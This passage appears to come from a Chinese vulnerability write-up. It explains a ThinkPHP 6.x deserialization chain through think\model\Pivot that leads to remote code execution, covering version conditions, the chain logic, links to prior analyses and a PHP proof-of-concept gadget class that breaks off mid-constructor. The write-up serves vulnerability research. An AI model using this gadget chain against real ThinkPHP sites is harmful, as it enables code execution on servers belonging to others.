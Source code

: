 ### 4.think\Model\Pivot字符串拼接+动态调用RCE

#### - 利用条件

版本范围：ThinkPHP v6.0.1+

#### - 漏洞原理和分析

1. tp6使用Model类自带的destruct触发反序列化替换被过滤的`think\process\pipes\Windows`，移除后触发反序列化链条没有了。但是找到Model.php存在`__destruct`并且由于`__toString`导致的反序列化链条存在，继承Model的实类选用`think\model\Pivot`，整体流程：

![img](https://cdn.nlark.com/yuque/0/2023/png/21861937/1678937668370-5e478528-77bf-45f1-8e7f-5dade0354834.png)

2. `__toString`方法出发后的利用链还是动态调用的方式。

详细可以查看[【Mochazz】ThinkPHP6.X反序列化利用链](https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP6/ThinkPHP6.X反序列化利用链.md)和[thinkphp v6.0.x 反序列化利用链挖掘](https://www.anquanke.com/post/id/187393#h3-4)（注意：此文作者说的phpggc ThinkPHP/RCE2 版本是5.0.24，不是本处的6.x版本，前期调用链条还是用的`think\process\pipes\Windows`的）

#### -漏洞复现

```php
<?php

namespace think\model\concern;
trait Attribute{
    protected $filed = [];
    protected $schema = [];
    private $data = [];
    private $withAttr = [];
}
trait Conversion{
    protected $visible = [];
}
trait ModelEvent{
    protected $withEvent = true;
}

namespace think;
use Opis\Closure\SerializableClosure;
abstract class Model{
    use model\concern\Attribute;
    use model\concern\Conversion;
    use model\concern\ModelEvent;

    private $force = false;
    private $lazySave = false;
    private $exists = false;
    protected $table;
    protected $suffix;
}

namespace think\model;
use Think\Model;

class Pivot extends Model{
    public function __construct()
    {
        $this->force = true;
        $this->withEvent = false;
        $this->table = 'hello';
        $this->suffix = 'world';
        $this->lazySave = true;
        $this->exists = true;
        $this->data = ['hello'=>''];
```